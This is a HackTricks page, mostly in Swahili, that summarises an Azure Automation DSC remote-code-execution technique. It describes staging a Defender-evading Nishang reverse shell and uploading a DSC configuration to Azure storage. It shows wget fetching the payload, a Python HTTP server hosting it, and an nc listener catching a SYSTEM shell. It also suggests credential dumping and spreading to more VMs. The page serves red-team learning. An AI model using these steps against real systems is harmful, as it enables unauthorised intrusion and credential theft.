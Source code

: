 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Mchakato huu unahusisha kuanzisha miundombinu ya seva ya mbali ili kuhifadhi payload iliyobadilishwa ya Nishang `Invoke-PowerShellTcp.ps1`, inayoitwa `RevPS.ps1`, iliyoundwa ili kupita Windows Defender. Payload inatolewa kutoka kwa mashine ya Kali Linux yenye IP `40.84.7.74` kwa kutumia seva rahisi ya HTTP ya Python. Operesheni inatekelezwa kupitia hatua kadhaa:

#### Step 1 — Create Files

* **Files Required:** Inahitajika skripti mbili za PowerShell:
1. `reverse_shell_config.ps1`: Faili ya Desired State Configuration (DSC) inayopata na kutekeleza payload. Inapatikana kutoka [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
2. `push_reverse_shell_config.ps1`: Skripti ya kuchapisha usanidi kwa VM, inapatikana kwenye [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Customization:** Vigezo na parameta katika faili hizi lazima zibadilishwe ili kufaa mazingira maalum ya mtumiaji, ikiwa ni pamoja na majina ya rasilimali, njia za faili, na vitambulisho vya seva/payload.

#### Step 2 — Zip Configuration File

* Faili `reverse_shell_config.ps1` inashirikiwa katika faili la `.zip`, ikifanya iwe tayari kwa uhamishaji kwenda kwenye Akaunti ya Hifadhi ya Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Weka Muktadha wa Hifadhi & Pakia

* Faili la usanidi lililoshonwa linapakiwa kwenye kontena la Hifadhi la Azure lililowekwa awali, azure-pentest, kwa kutumia cmdlet ya Azure Set-AzStorageBlobContent.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box

* Seva ya Kali inashusha mzigo wa RevPS.ps1 kutoka kwenye hifadhi ya GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Skripti inahaririwa ili kubaini VM ya Windows inayolengwa na bandari ya shell ya kurudi.

#### Hatua ya 5 — Chapisha Faili la Mipangilio

* Faili la mipangilio linafanywa kazi, na kusababisha skripti ya shell ya kurudi kupelekwa kwenye eneo lililotajwa kwenye VM ya Windows.

#### Hatua ya 6 — Kuweka Payload na Kuanzisha Listener

* Python SimpleHTTPServer inaanzishwa ili kuhifadhi payload, pamoja na listener ya Netcat ili kukamata muunganisho unaokuja.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Kazi iliyoandaliwa inatekeleza payload, ikipata haki za kiwango cha SYSTEM.

#### Hitimisho

Utekelezaji wa mafanikio wa mchakato huu unafungua uwezekano mwingi wa hatua zaidi, kama vile kudondosha akidi au kupanua shambulio kwa VMs nyingi. Mwongozo unahimiza kujifunza na ubunifu endelevu katika eneo la Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
